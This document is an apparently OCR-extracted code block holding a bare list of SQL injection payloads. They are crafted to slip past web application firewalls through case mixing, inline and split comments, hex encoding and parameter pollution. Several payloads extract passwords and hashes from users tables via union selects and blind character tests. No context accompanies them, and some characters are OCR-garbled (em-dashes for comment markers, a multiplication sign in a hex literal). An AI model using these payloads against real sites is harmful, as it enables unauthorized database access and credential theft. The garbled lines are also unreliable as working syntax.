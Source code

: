 ``` sql  
  
union (/*!/**/ SeleCT */ 1,2,3)
  
/*!union*/+/*!select*/
  
union+/*!select*/
  
/**//*!union*//**//*!select*//**/
  
/*!uNIOn*/ /*!SelECt*/
  
+union+distinctROW+select+
  
-15+(uNioN)+(sElECt)
  
-15+(UnI)(oN)+(SeL)(ecT)+

id=1+UnIOn/**/SeLect 1,2,3—
  
id=1+UNIunionON+SELselectECT 1,2,3—
  
id=1+/*!UnIOn*/+/*!sElEcT*/ 1,2,3—
  
id=1 and (select 1)=(Select 0xAA 1000 more A's)+UnIoN+SeLeCT 1,2,3—
  
id=1+un/**/ion+sel/**/ect+1,2,3--
  
id=1+/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3
  
id=1+/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
  
id=1+/**/union/*&id=*/select/*&id=*/1,2,3--
  
id=-1 and (select 1)=(Select 0xAA*1000) /*!UNION*/ /*!SELECT*//**/1,2,3,4,5,6—x

/**/union/*&id=*/select/*&id=*/column/*&id=*/from/*&id=*/table--
  
/*!union*/+/*!select*/+1,2,3—
  
/*!UnIOn*//*!SeLect*/+1,2,3—
  
un/**/ion+sel/**/ect+1,2,3—
  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
  
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+
  
FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),
  
9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--

?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
  
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
  
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
  
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
  
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/
  
```